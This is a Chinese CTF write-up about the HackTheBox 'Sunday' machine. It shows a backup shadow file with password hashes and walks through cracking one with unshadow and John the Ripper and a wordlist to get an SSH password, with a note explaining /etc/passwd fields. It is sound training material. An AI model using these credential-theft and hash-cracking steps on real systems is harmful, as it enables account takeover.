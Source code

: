 在backup目录下找打shadow的备份文件

`sunny@sunday:/backup$ ls agent22.backup shadow.backup sunny@sunday:/backup$ cat shadow.backup mysql:NP::::::: openldap:*LK*::::::: webservd:*LK*::::::: postgres:NP::::::: svctag:*LK*:6445:::::: nobody:*LK*:6445:::::: noaccess:*LK*:6445:::::: nobody4:*LK*:6445:::::: sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445:::::: sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::`

写两个文件，passwd和shadow

`┌──(root kali)-[~/htb/Sunday] └─# cat passwd sammy:x:101:10:sammy:/export/home/sammy:/bin/bash ┌──(root kali)-[~/htb/Sunday] └─# cat shadow sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::`

用unshadow命令把上面两个文件合并成一个john可以识别的[哈希文件](https://zhida.zhihu.com/search?content_id=187354651&content_type=Article&match_order=1&q=%E5%93%88%E5%B8%8C%E6%96%87%E4%BB%B6&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NTcwMDY0MTUsInEiOiLlk4jluIzmlofku7YiLCJ6aGlkYV9zb3VyY2UiOiJlbnRpdHkiLCJjb250ZW50X2lkIjoxODczNTQ2NTEsImNvbnRlbnRfdHlwZSI6IkFydGljbGUiLCJtYXRjaF9vcmRlciI6MSwiemRfdG9rZW4iOm51bGx9.8kiVlJPYG30StcDzz8FSfAsGBVGNEuCQMK2ow3zJlno&zhida_source=entity)

`┌──(root kali)-[~/htb/Sunday] └─# unshadow passwd shadow >pass.hash`

爆破这个hash文件

`┌──(root kali)-[~/htb/Sunday] └─# john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash Using default input encoding: UTF-8 Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x]) Cost 1 (iteration count) is 5000 for all loaded hashes Will run 4 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status cooldude! (sammy) 1g 0:00:01:11 DONE (2021-12-16 21:35) 0.01393g/s 2839p/s 2839c/s 2839C/s domonique1..chrystelle Use the "--show" option to display all of the cracked passwords reliably Session completed`

现在我们得到了sammy的ssh密码：`cooldude!`

### `/etc/passwd` 字段解释

格式：

```Plain
用户名 : 密码占位符 : UID : GID : 用户描述 : 家目录 : 登录 shell

```

举例 `sammy:x:101:10:sammy:/export/home/sammy:/bin/bash`：

1. **用户名** → `sammy`
2. **密码占位符** → `x`（表示密码在 `/etc/shadow` 里保存，而不是这里）
3. **UID** → `101`（用户 ID，系统用的数字身份）
4. **GID** → `10`（用户的主组 ID）
5. **用户描述** → `sammy`（备注，可以是全名、描述等）
6. **家目录** → `/export/home/sammy`（用户登录后所在目录）
7. **Shell** → `/bin/bash`（用户登录时使用的 shell 程序）

你说的修改 `/etc/passwd` → 其实是你在 **攻击机 (Kali)** 里手动写的一个假的 `passwd` 文件，只是为了配合 `unshadow` 把 **用户名和 hash 对上号**，方便 John 来爆破。

⚠️ 这个文件 **不会影响目标靶机的权限**。

- 你写成 `/bin/bash` 也好，写成 `/bin/false` 也好，对靶机的 `sammy` 权限没有任何影响。
- 它只是在你的攻击机本地，John 用来识别“哪个 hash 属于哪个用户”。

---

### 🔹 在攻击机里写 passwd 的目的

- `unshadow` 必须要同时有一个 **passwd 文件**（提供用户名、UID、shell 信息）和 **shadow 文件**（提供 hash）。
- 它会拼接成标准格式给 John。
- 所以我们随便写一个“模拟的 passwd 行”，只要用户名对得上就行。

  

1. **[SecLists](https://github.com/danielmiessler/SecLists/tree/master)/**Usernames/Names/names.txt  
This have a name list